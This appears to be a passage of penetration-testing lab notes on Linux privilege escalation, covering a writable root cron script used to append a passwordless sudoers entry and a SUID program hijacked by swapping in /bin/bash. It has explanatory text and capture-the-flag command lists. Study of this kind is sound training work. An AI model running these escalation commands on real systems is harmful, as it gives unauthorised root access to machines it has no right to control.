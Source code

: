 #### Lab

```bash
groups
cat /etc/passwd
crontab -l
ls -la
grep -rnw /usr -e "/home/student/message"
cat /tmp/message
ls -la /usr/local/share/copy.sh
cat /usr/local/share/copy.sh
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
sudo -l
sudo su
cat /root/flag
crontab -l
```

### Exploiting SUID binaries

#### Description

* In addition to the three main file access permissions (read, write and execute), Linux also provides users with specialized permissions that can be utilized in specific situations. One th these access permissions is the SUID (Set Owner User ID) permission.
* When applied, this permission provides users with the ability to execute a script or binary with the permissions of the file owner as opposed to the user that is running the script or binary.
* SUID permissions are typically used to provide unprivileged users with the ability to run specific scripts or binaries with `root` permissions. It is to be noted, however, that the provision of elevate privileges is limited to the execution of the script and does not translate to elevation of privileges, however, if improperly configured unprivileged users can exploit misconfigurations or vulnerabilities within the binary or script to obtain an elevated session.
* This is the functionality that we will be attempting to exploit in order to elevate our privileges, however, the success of our attack will depend on the following factors :
  * Owner of the SUID binary : given that we are attempting to elevate our privileges, we will only be exploiting SUID binaries that are owned by the `root` user or other privileged users.
  * Access permissions : we will require executable permissions in order to execute the SUID binary.

#### Lab

```bash
ls -l
./greetings
./welcome
strings welcome  # the string greetings exists in the file
rm greetings
cp /bin/bash greetings
./welcome

cat /root/flag
```

### Dumping Linux password hashes
